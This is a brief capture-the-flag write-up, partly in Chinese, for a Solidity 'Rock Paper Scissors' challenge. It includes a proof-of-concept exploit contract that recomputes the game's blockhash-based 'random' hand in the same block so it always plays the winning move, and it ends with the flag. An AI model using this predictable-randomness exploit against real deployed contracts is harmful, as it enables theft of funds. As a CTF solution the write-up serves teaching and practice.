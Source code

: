 ## Rock Paper Scissors

Tony found out average salary of smart contract developers could reach millions of dollars. He started to learn about Solidity and deployed his first ever smart contract of epic rock scissor paper game!

本题要求和 `RockPaperScissors` 合约玩石头剪刀布，并击败对方。我们在同一个区块中提前知道结果并根据结果输入必赢的手势即可。

POC:
``` solidity
contract RockPaperScissorsExploit {
    RockPaperScissors public rps;
    Challenge public chal;

    constructor(address _chal) {
        chal = Challenge(_chal);
        rps = chal.rps();
    }

    function randomShape() internal view returns (RockPaperScissors.Hand) {
        return RockPaperScissors.Hand(uint256(keccak256(abi.encodePacked(address(this), blockhash(block.number - 1)))) % 3);
    }

    function solve() public {
        RockPaperScissors.Hand mine = randomShape();
        if (mine == RockPaperScissors.Hand.Scissors) {
            rps.tryToBeatMe(RockPaperScissors.Hand.Rock);
        } else if (mine == RockPaperScissors.Hand.Rock) {
            rps.tryToBeatMe(RockPaperScissors.Hand.Paper);
        } else if (mine == RockPaperScissors.Hand.Paper) {
            rps.tryToBeatMe(RockPaperScissors.Hand.Scissors);
        }
    }
}
```
Flag: blaz{r3t_t0_rsp!}
